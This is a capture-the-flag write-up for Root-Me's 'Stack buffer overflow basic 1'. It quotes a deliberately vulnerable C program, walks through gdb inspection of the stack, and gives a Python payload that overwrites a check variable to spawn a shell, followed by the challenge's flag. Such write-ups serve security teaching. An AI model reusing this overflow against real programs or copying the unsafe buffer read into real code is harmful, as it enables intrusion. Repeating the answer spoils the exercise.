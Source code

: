 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**, which makes it able to override the value of **check**.<br>
- Disassembling the main function and we set break point at the **fgets function line**. Then run the program

![image](https://user-images.githubusercontent.com/48288606/146743588-ed79be7a-e9f6-48b8-9aa2-a14343cbf808.png)

- Try inputing `aaaaaaaa` and watch that value's address.

![image](https://user-images.githubusercontent.com/48288606/146744069-794864a9-8906-4e64-a346-9bb1abda2bcb.png)

- Here, we examine the address of **aaaa** and in range 20 adjacent addressand  we see that our **check** 's value is at **0xbffffb0c**. And our input **aaaa** is at **0xbffffae4**. So we need the calculate the distance for writing the desired value to the proper position. 

![image](https://user-images.githubusercontent.com/48288606/146745301-7402ef93-29aa-4605-a747-d7eac50acbd0.png)

### Solution:

Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Then just need to read the `.passwd` file.

Pass: 1w4ntm0r3pr0np1s

